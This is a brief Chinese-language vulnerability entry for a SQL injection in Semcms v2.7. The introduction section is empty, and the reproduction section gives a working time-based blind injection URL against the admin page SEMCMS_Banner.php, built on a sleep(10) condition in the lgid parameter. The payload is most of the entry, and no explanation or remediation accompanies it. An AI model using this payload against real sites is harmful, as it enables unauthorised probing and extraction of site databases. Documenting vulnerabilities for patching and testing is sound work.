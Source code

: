 Semcms v2.7 sql注入漏洞
=======================

一、漏洞简介
------------

二、漏洞影响
------------

Semcms v2.7

三、复现过程
------------

    http://0-sec.org/semcms/sbifr_Admin/SEMCMS_Banner.php?err=001&lgid=1 and if(length(database()>0),sleep(10),1) --
